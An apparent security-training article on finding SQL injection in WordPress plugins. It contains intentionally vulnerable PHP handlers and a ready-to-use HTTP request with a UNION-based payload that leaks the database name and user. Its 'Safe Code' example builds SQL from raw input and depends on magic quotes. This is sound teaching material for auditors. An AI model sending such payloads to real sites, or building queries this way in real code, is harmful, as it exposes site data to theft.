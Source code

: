 ```yaml
---
title: SQL Injection (SQLi)
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible SQLi on WordPress. This includes improper usage of functions and user input handling inside of the plugin/theme which can be used to inject a malicious query into the SQL execution to leak sensitive data.

<LinkCard
  title="Learn how to secure your code against SQL Injection"
  href="/academy/wordpress/securing-code/sql-injection/"
/>


## Useful Functions

Several functions could be useful to identify a possible SQLi vulnerability:

- [`$wpdb->query`](https://developer.wordpress.org/reference/classes/wpdb/query/)
- [`$wpdb->get_var`](https://developer.wordpress.org/reference/classes/wpdb/get_var/)
- [`$wpdb->get_row`](https://developer.wordpress.org/reference/classes/wpdb/get_row/)
- [`$wpdb->get_col`](https://developer.wordpress.org/reference/classes/wpdb/get_col/)
- [`$wpdb->get_results`](https://developer.wordpress.org/reference/classes/wpdb/get_results/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_nopriv_load_questions", "load_questions");

function load_questions(){
    global $wpdb;

    $quiz_id = $_GET["quiz_id"];

    if ( isset($_COOKIE[ 'question_ids_'.$quiz_id ]) ) {
        $question_sql = sanitize_text_field( wp_unslash( $_COOKIE[ 'question_ids_'.$quiz_id ] ) );
    }else {
        $question_ids = array("1","2","3");
        $question_sql = implode( ',', $question_ids );
    }
    
    $order_by_sql = 'ORDER BY FIELD(question_id,'.$question_sql.')';

    $query     = $wpdb->prepare( "SELECT * FROM {$wpdb->prefix}custom_questions WHERE question_id IN (%1s)", $question_sql);
    $questions = $wpdb->get_results( stripslashes( $query ) );

    wp_send_json($questions);
}
```

The vulnerable variable, in this case, is the `$question_sql` variable where the value is passed from `$_COOKIE[ 'question_ids_'.$quiz_id ]` value without proper sanitization or escaping. The `sanitize_text_field` function is not enough to prevent SQL Injection since the `$question_sql` variable is constructed inside an ORDER BY clause without proper escaping.

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed action and parameter to trigger the SQL Injection (let's say that the `{$wpdb->prefix}custom_questions` table has 5 columns):

```http
GET /wp-admin/admin-ajax.php?action=load_questions&quiz_id=1 HTTP/1.1
Host: localhost
Cookie: question_ids_1=1%29%20and%20false%20union%20select%20database%28%29%2C%271337%27%2C%271337%27%2Cuser%28%29%2C%271337%27%20--%20-%20
Connection: close

```

Below are some of the findings related to SQLi:

- [Critical Vulnerabilities Patched in REHub Theme and Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-rehub-theme-and-plugin/)
- [Critical SQL Injection Found in Porto Theme's Plugin](https://patchstack.com/articles/critical-sql-injection-found-in-porto-themes-plugin/)
- [Multiple High and Critical Vulnerabilities in Avada Theme and Plugin](https://patchstack.com/articles/multiple-high-and-critical-vulnerabilities-in-avada-theme-and-plugin/)
- [Critical Unauthenticated SQL Injection in Quiz And Survey Master \<= 8.1.4](https://patchstack.com/articles/critical-unauthenticated-sql-injection-in-quiz-and-survey-master/)
- [Multiple Vulnerabilities Fixed In WP Statistics Plugin Version \<= 13.2.10](https://patchstack.com/articles/multiple-authenticated-sql-injection-fixed-in-wp-statistics-plugin-version-13-2-10/)
- [Multiple Critical Vulnerabilities Fixed In LearnPress Plugin Version \<= 4.1.7.3.2](https://patchstack.com/articles/multiple-critical-vulnerabilities-fixed-in-learnpress-plugin-version/)


## Magic Quotes

Magic Quotes is/was a feature in PHP designed to automatically escape certain characters in user input to prevent SQL injection (SQLi) attacks. Specifically, it would escape single quotes ('), double quotes ("), backslashes (\), and NULL characters by automatically adding backslashes before them. This was done to protect against common vulnerabilities like SQL injection, where an attacker might try to insert malicious SQL code into a query.

It is not the perfect solution. It is mostly incosistent, meaning that it only escapes certain characters. Depending on how the code works it might still allow for SQL injections or corrupted data in the database.

It was an optionality for PHP but it is disabled. Why we are mentioning it here if you ask, it still lives on WordPress via [wp_magic_quotes()
](https://developer.wordpress.org/reference/functions/wp_magic_quotes/).

As mentioned on the page, it is a private function so developers doesn't need to implement it. If any code is executed inside WordPress hooks, inputs ($_GET, $_POST, $_COOKIE, and $_SERVER ) will go through the [add_magic_quotes()](https://developer.wordpress.org/reference/functions/add_magic_quotes/)

```php
function add_magic_quotes( $input_array ) {
	foreach ( (array) $input_array as $k => $v ) {
		if ( is_array( $v ) ) {
			$input_array[ $k ] = add_magic_quotes( $v );
		} elseif ( is_string( $v ) ) {
			$input_array[ $k ] = addslashes( $v );
		}
	}

	return $input_array;
}
```

and gets sanitized due to [addslashes()](https://www.php.net/manual/en/function.addslashes.php).

So even a super simple vulnerable looking code like `select * from users where '$injection_here';` will be escaped and turn into something like `SELECT * FROM users where '\'testpayload';` inside a WordPress hook and you will not be able to exploit it in almost all scenarios.

Safe Code:

```php
add_action('init', function() {
    $input = $_POST['input']; 
    global $wpdb;
    $query = "SELECT * FROM users WHERE name = '$input'";
    $result = $wpdb->get_results($query);
    // Display the result
    if ($result) {
        foreach ($result as $row) {
            echo "User: " . esc_html($row->name);
        }
    }
});
```

Vulnerable Code:

```php
add_action('init', function() {
    $input = wp_unslash($_POST['input']); 
    global $wpdb;
    $query = "SELECT * FROM users WHERE name = '$input'";
    $result = $wpdb->get_results($query);
    // Display the result
    if ($result) {
        foreach ($result as $row) {
            echo "User: " . esc_html($row->name);
        }
    }
});
```

If the input is unslashed using [wp_unslash()](https://developer.wordpress.org/reference/functions/wp_unslash/) it will still be exploitable.
